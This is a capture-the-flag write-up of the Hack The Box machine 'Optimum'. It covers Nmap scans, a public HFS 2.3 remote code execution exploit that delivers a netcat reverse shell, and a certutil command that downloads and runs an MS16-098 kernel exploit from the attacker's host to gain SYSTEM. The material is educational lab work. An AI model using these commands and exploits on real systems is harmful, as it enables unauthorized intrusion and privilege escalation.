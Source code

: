 # HTB - Optimum

#### Ip: 10.10.10.8
#### Name: Optimum
#### Rating: Easy

----------------------------------------------------------------------

![Optimum.png](../assets/optimum_assets/Optimum.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.8    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:43 CDT
Nmap scan report for 10.10.10.8
Host is up (0.067s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just port 80 open here, lets scan it again but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -sC -sV -T4 10.10.10.8 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:45 CDT
Nmap scan report for 10.10.10.8
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```
Cool, looks like Nmap has identified HttpFileServer httpd 2.3 running, and we can confirm that by heading to the site itself:

![hfs.png](../assets/optimum_assets/hfs.png)

Searching for this version in Google we find an RCE that looks promising: https://www.exploit-db.com/exploits/39161

![edb.png](../assets/optimum_assets/edb.png)

### Exploitation

First I'll copy over a copy of nc.exe to my working directory, set up a Python http server, and then update the script with my correct IP and port I'll be listening on. 

![ip.png](../assets/optimum_assets/ip.png)

After that I'll use the exploit to transfer nc.exe to the target, and get a reverse shell back on my listener:

![shell.png](../assets/optimum_assets/shell.png)

Nice! That Worked! We can now grab the user.txt flag:

![user_flag.png](../assets/optimum_assets/user_flag.png)

### Privilege Escalation

First I'll transfer over a copy of winPEAS to help with the enumeration for privesc:

![transfer.png](../assets/optimum_assets/transfer.png)

Loking through the results I'm not seeing much. Because I know this is an old machine, I run `systeminfo` to see if I can get any more info:

```text
C:\Users\kostas\Documents>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User

<snip>
```

Googling Microsoft Windows Server 2012 R2 Standard leads me to MS16-098 and I find this exploit: https://www.exploit-db.com/exploits/41020

![edb2.png](../assets/optimum_assets/edb2.png)

I can transfer over the executable with certutil, and simply run it.

```text
C:\Users\kostas\Documents>certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Documents>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```

Nice! We are now nt authorit\sytem on the target! Lets grab that root.txt flag:

![root_flag.png](../assets/optimum_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------------
